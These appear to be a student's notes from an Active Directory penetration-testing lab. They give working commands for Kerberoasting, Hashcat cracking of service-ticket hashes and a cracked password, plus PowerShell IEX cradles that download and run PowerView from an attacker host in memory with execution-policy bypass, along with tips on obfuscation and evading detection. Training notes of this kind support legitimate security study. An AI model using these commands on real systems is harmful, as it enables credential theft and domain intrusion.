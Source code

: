 Without paying close attention, they extracted the two hashes and cracked using John and Hashcat

```Bash
(Invoke-Kerberoast).Hash | Out-File kerberoast.txt
```

Pass is `Qwerty09!`
Using Hashcat

```Bash
.\hashcat.exe -m 13100 .\hashes.tgs ..\Wordlists\yhbp2 -w 3 -O -o hashes.tgs.out --self-test-disable
```

Cracking Tips
- Start with a small list on the first cracking job. Just looking for some footholds
- Start longer jobs in the background using rulesets, longer lists, etc. 
- Finish with the "one rule to rule them all" rule from Hashcat
- https://github.com/NotSoSecure/password_cracking_rules 


Loves the tool "pipal" to do some password analysis. 

## AD Day 3

Obfuscating powershell with https://github.com/CBHue/PyFuscation

We can host PowerView on a webserver from our host and use that to run commands from memory on PowerShell with an "IEX cradle"

```Bash
PS C:\Windows\system32> IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.122:8080/PowerView.ps1'); Get-DomainUser


logoncount             : 42
iscriticalsystemobject : True
description            : Built-in account for administering the computer/domain
distinguishedname      : CN=Administrator,CN=Users,DC=corp,DC=com
objectclass            : {top, person, organizationalPerson, user}
lastlogontimestamp     : 3/30/2022 5:09:27 PM
name                   : Administrator
objectsid              : S-1-5-21-4038953314-3014849035-1274281563-500
samaccountname         : Administrator
logonhours             : {255, 255, 255, 255...}
admincount             : 1
codepage               : 0
```

The idea is that we do everything with a single command, running in memory, never touching disks. IEX Cradles are powerful, above example may get detected

Even better, run it all in a powershell process that executes on completion. 

```Bash
PS C:\Windows\system32> powershell -ep bypass "IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.122:8080/PowerView.ps1'); Get-DomainUser"
```
